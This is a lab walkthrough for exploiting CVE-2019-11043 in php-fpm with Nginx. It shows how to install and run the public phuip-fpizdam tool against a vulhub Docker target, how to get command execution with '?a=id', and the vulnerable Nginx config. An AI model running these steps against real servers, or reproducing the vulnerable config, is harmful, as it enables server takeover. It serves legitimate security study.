



# CVE-2019-11043 php-fpm+Nginx RCE

## 0x01 install phuip-fpizdam-Mac

`go get github.com/neex/phuip-fpizdam`

`go install github.com/neex/phuip-fpizdam`


```
ale@Pentest ~/go go get github.com/neex/phuip-fpizdam
ale@Pentest ~/go go install github.com/neex/phuip-fpizdam
ale@Pentest ~/go ls
bin src

ale@Pentest ~/go cd bin
ale@Pentest ~/go/bin ls
phuip-fpizdam

ale@Pentest ~/go/bin file phuip-fpizdam
phuip-fpizdam: Mach-O 64-bit executable x86_64

ale@Pentest ~/go/bin ls -lah phuip-fpizdam
-rwxr-xr-x  1 ale  staff   9.3M Oct 24 07:30 phuip-fpizdam

ale@Pentest ~/go/bin
```

##### phuip-fpizdam help
```
./phuip-fpizdam

Error: accepts 1 arg(s), received 0
Usage:
  phuip-fpizdam [url] [flags]

Flags:
      --cookie string       send this cookie
  -h, --help                help for phuip-fpizdam
      --kill-count int      how many times to send the worker killing payload (default 50)
      --kill-workers        just kill php-fpm workers (requires only QSL)
      --method string       detect method (see detect_methods.go) (default "session.auto_start")
      --only-qsl            stop after QSL detection, use this if you just want to check if the server is vulnerable
      --pisos int           pisos hint
      --qsl int             qsl hint
      --reset-retries int   how many retries to do for --reset-setting, -1 means a lot (default 50)
      --reset-setting       try to reset setting (requires attack params)
      --setting string      specify custom php.ini setting for --reset-setting
      --skip-attack         skip attack phase
      --skip-detect         skip detection phase

2019/10/24 07:53:55 accepts 1 arg(s), received 0

```
## 0x02 install phuip-fpizdam-Windows

`https://github.com/neex/phuip-fpizdam/archive/master.zip`

`go build`



## 0x03 docker for CVE-2019-11043

```
root@kali:~# cd ~/vulhub/php/CVE-2019-11043

root@kali:~/vulhub/php/CVE-2019-11043# ls

1.png  2.png  default.conf  docker-compose.yml  README.md  www

root@kali:~/vulhub/php/CVE-2019-11043# docker-compose up -d

Creating network "cve-2019-11043_default" with the default driver
Creating cve-2019-11043_php_1 ... done
Creating cve-2019-11043_nginx_1 ... done
root@kali:~/vulhub/php/CVE-2019-11043#


root@kali:~/vulhub/php/CVE-2019-11043# docker ps -a
CONTAINER ID  IMAGE  COMMAND  CREATED  STATUS  PORTS  NAMES

9923d12fdff0 nginx:1 "nginx -g 'daemon of…" 43 seconds ago Up 41 seconds 0.0.0.0:8080->80/tcp cve-2019-11043_nginx_1

d3135c708e7b php:7.2.10-fpm "docker-php-entrypoi…" 44 seconds ago Up 42 seconds 9000/tcp cve-2019-11043_php_1

```


## 0x04 send poc

`./phuip-fpizdam http://10.10.20.166:8080/index.php`


`http://10.10.20.166:8080/index.php?a=id`




## python check vulnerable.

`python php-rce-check.py`




## nginx config

`/etc/nginx/conf.d/default.conf`

example:

```
server {
    listen 80 default_server;
    listen [::]:80 default_server;

    root /usr/share/nginx/html;

    index index.html index.php;

    server_name _;

    location / {
        try_files $uri $uri/ =404;
    }

    location ~ [^/]\.php(/|$) {
        fastcgi_split_path_info ^(.+?\.php)(/.*)$;
        include fastcgi_params;

        fastcgi_param PATH_INFO       $fastcgi_path_info;
        fastcgi_index index.php;
        fastcgi_param  REDIRECT_STATUS    200;
        fastcgi_param  SCRIPT_FILENAME /var/www/html$fastcgi_script_name;
        fastcgi_param  DOCUMENT_ROOT /var/www/html;
        fastcgi_pass php:9000;
    }

}
```
## version

```
root@7c20aecd9c04:/usr/share/nginx/html# nginx -v
nginx version: nginx/1.19.2

phpinfo();
PHP Version 7.2.10
```

## 0x05 参考链接

https://github.com/neex/phuip-fpizdam

https://github.com/vulhub/vulhub/tree/master/php/CVE-2019-11043

